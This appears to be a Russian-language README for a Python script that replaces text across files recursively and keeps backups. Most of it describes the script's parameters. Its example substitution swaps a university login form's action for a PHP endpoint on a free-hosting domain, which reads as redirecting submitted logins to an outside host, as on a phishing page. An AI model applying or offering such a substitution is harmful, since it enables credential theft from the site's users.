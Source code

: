 ﻿#HelperScript

Python 3.5

В ходе работы возникла задача автоматической обработки нескольких документов по определенным правилам.

Запускать в папке с файлами

Данный скрипт
* позволяет произвести действия по замене частей файлов
* можно указать требуемые типы файлов
* делает бекапы файлов
* <b>[Update!]</b> проходит папку рекурсивно

Параметры скрипта
* <b>dirname</b> - папка с новыми файлами (по умолчанию !new)
* <b>backupdir</b> - папка с бекапом файлов (по умолчанию !old)
* <b>format</b> - какие документы (формат) изменяем (по умолчанию .html)
* <b>old</b> - что меняем (не забываем про экранирование кавычек обратным слешем) (например, "id=\"logonForm\" action=\"https://de.ifmo.ru/servlet/\"")
* <b>new</b> - на что меняем (при необходимости можно прогнать несколько раз) (например, "id=\"logonForm2\" action=\"http://flagruger.16mb.com/2.php/\"")
